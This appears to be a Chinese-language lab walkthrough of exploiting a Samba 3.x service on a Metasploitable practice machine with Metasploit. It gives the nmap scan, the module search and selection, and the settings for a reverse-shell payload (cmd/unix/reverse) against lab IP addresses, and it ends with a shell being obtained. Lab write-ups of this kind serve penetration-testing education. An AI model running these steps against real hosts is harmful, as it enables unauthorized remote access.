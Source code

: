 
# Metasploit 漏洞利用
**环境**<br />攻击机：kali（192.168.1.28）<br />靶机：Metasploitable（192.168.1.18）

端口扫描
```
nmap -sV 192.168.1.18
```
![](https://img-blog.csdnimg.cn/d03ee4e9955f4daaabffb28e4215da2a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Bjaen&originHeight=567&originWidth=964&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以发现主机运行这Samba3.x的服务，查找县相关漏洞利用模块
```
search samba
```
![](https://img-blog.csdnimg.cn/febf8bfa182d430c94057037828873e6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=GWh3m&originHeight=366&originWidth=971&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看漏洞相关信息，输入对应的编号即可
```
info 8
```
![](https://img-blog.csdnimg.cn/bfd2f90e8cea46598ef6f312611cd573.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=OKnrl&originHeight=529&originWidth=967&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

利用相关模块，查看并配置参数
```
use 8	#利用模块
show options	#查看参数
set payload cmd/unix/reverse	#设置payload
set rhosts 192.168.1.18    #配置目标机IP
set rport 445	#配置目标机端口
set lhost 192.168.1.28	#配置攻击机IP
```
![](https://img-blog.csdnimg.cn/db6f427243424a9a93fff7245b901c51.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=bJbrf&originHeight=504&originWidth=968&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

开始攻击
```
run
```

成功拿到shell<br />![](https://img-blog.csdnimg.cn/0a9bd96fba4f46d39e3ae7bea600aac5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=cStjD&originHeight=383&originWidth=968&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)













